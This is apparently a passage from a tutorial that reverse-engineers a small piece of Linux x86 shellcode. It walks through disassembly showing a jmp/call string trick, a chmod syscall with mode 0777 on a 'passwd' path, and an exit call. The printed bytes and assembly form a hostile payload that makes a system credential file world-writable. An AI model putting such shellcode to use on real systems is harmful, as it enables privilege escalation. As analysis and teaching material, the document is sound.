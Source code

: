         | `-> 0x3c001053   -4>   e8eaffffff       call dword 0x3c001042
        | |      ; 0x3c001042() [4]
       ,`---> 0x3c001058   -4    eb15             jmp 0x3c00106f [5]
       |      0x3c00105a   -4    31c0             xor eax, eax
       |      0x3c00105c   -4    b00f             mov al, 0xf
       |      0x3c00105e   -4    5b               pop ebx
       |      0x3c00105f   -8-   31c9             xor ecx, ecx
       |      0x3c001061   -8    66b9ff01         mov cx, 0x1ff
       |      0x3c001065   -8    cd80             int 0x80
       |         ; syscall[0x80][3840]=?
       |      0x3c001067   -8    31c0             xor eax, eax
       |      0x3c001069   -8    b001             mov al, 0x1
       |      0x3c00106b   -8    31db             xor ebx, ebx
       |      0x3c00106d   -8    cd80             int 0x80
       |         ; msync (0x100,0x0,0x1ff)
       `----> 0x3c00106f   -8>   e8e6ffffff       call dword 0x3c00105a
       |         ; 0x3c00105a() [6]
              0x3c001074   -8 string (5): "444d"
              0x3c001079   -8 hex length=64 delta=3
    0x3c001079  7061 7373 7764 0055 2720 666f 7220 7265  passwd.U' for re
    0x3c001089  646f 0000 0000 0000 0000 0000 0000 0000  do..............
    0x3c001099  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x3c0010a9  0000 0000 0000 0000 0000 0000 00         .............   
    </code>
    



And now we see that the instructions following 0x3c001058 are now valid. The first thing that I notice are these 'int 0x80' instructions. On a UNIX like operating system (running on x86/amd64), firing an 0x80 interrupt has a special meaning, it asks the kernel to execute a system call, whose number is held in eax.

By following execution mentally (through a jump and a call), I can tell you that eax takes a value of 15 at 0x3c001065 and 1 at 0x3c00106d. We can identify these Linux system calls by grokking the 32-bit x86 kernel headers, or the easy way, google for them:
http://asm.sourceforge.net/syscall.html

So we have a call to chmod(2) at 0x3c001065, followed by a call to exit(2) at 0x3c00106d. We will need to examine the arguments to calls in order to understand what they do. On a Linux system, system call arguments are passed in registers (ebx, ecx, edx, esi, edi, ebp).

Let's look at the call to chmod(2); This call takes two arguments, so we should look in ebx and ecx for a char pointer indicating the path to a file, and a mode_t (which is just an integer really) specifying the mode (or permissions) to change to.  ebx is popped from the top of the stack at 0x3c00105e and if we follow execution backwards, we see that the last thing on the stack was a "return address" (0x3c001074) of the call at 0x3c00106f. Ofcourse this is not a return address at all, just a sneaky way to bundle a string into the payload. Let's look at the string using 'ps':
